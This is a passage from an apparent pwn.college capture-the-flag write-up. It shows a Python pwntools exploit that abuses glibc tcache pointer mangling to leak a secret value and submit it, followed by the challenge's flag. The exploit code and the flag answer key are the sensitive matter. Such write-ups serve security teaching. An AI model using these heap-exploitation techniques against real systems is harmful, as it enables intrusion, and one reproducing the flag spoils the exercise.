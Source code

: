 ```python

    secret = elf.bss() + 0x27B60
    secret_mangled_1 = mangle(pos, secret)
    secret_mangled_2 = mangle(pos, (secret - 0x8))

    target.success(f"pos: {hex(pos)}")
    target.success(f"mangled: {hex(mangled)}")
    target.success(f"heap: {hex(heap)}")
    target.success(f"secret: {hex(secret)}")
    target.success(f"secret_mangled_1: {hex(secret_mangled_1)}")
    target.success(f"secret_mangled_2: {hex(secret_mangled_2)}")

    scanf(0, flat(secret_mangled_1))
    malloc(0, 0)

    # the following malloc will be done 2 things:
    # 1/ zero out the last 8 bytes secret
    # 2/ let the first 8 bytes secret value to be the appropriate tcache bin's
    #    header
    malloc(0, 0)

    malloc(0, 0)
    # now the following free will use the value left on tcache bin header,
    # which is the secret value, to fill the fd
    free(0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_mangled = int.from_bytes(target.recv(8), "little")
    secret_demangled = demangle(pos, secret_mangled)
    target.success(f"secret_demangled: {hex(secret_demangled)}")

    secret = demangle(secret, secret_demangled, 0)
    target.success(f"secret: {hex(secret)}")

    send_flag(flat(secret, 0).decode())
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{MWVB7nml1ki-wvzXebiEIEuESuU.dhDO0MDL5cTNxgzW}`]

# Level 16.1
